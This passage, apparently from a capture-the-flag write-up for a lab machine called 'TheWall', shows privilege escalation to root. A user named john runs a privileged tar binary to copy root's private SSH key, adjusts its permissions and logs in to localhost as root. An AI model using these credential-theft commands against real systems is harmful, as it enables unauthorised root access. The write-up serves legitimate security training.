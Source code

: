 ```bash
lrwxrwxrwx   1 root root     8 Oct 17  2022 sbin -> usr/sbin
drwxr-xr-x   2 root root  4096 Oct 17  2022 srv
dr-xr-xr-x  13 root root     0 Feb 26 10:00 sys
drwxrwxrwt  10 root root  4096 Feb 26 14:09 tmp
drwxr-xr-x  14 root root  4096 Oct 17  2022 usr
drwxr-xr-x  12 root root  4096 Oct 17  2022 var
lrwxrwxrwx   1 root root    28 Oct 17  2022 vmlinuz -> boot/vmlinuz-5.10.0-18-amd64
lrwxrwxrwx   1 root root    28 Oct 17  2022 vmlinuz.old -> boot/vmlinuz-5.10.0-18-amd64
john@TheWall:/$ 
```

As it was to imagine

```bash
-rw-------   1 root root  2602 Oct 19  2022 id_rsa
```

So, i repeted the same steps that did for `/etc/ssh/ssh_host_rsa_key`

```bash
john@TheWall:/tmp$ /usr/sbin/tar -czf id_rsa.tar.gz /id_rsa
/usr/sbin/tar: Removing leading `/' from member names
john@TheWall:/tmp$ /usr/sbin/tar -xvf id_rsa.tar.gz -C /tmp
id_rsa
john@TheWall:/tmp$ chmod 644 id_rsa
john@TheWall:/tmp$ cat id_rsa
# Here it is showed thw RSA
```

In this case, SSH's connection was done by John, so it will not be necessary to copy the content of `id_rsa` on the other side.

```bash
john@TheWall:/tmp$ chmod 600 id_rsa
john@TheWall:/tmp$ ssh -i id_rsa root@127.0.0.1

root@TheWall:~# 
```

>[!Note]
The `id_rsa` had 644 permits, so SSH will reject it, as SSH rejects private keys that are accessible by other users for security. That is why I established 600 permissions so that only the John user.

![](/assets/images/TheWall-14.png)

**SECOND FLAG**


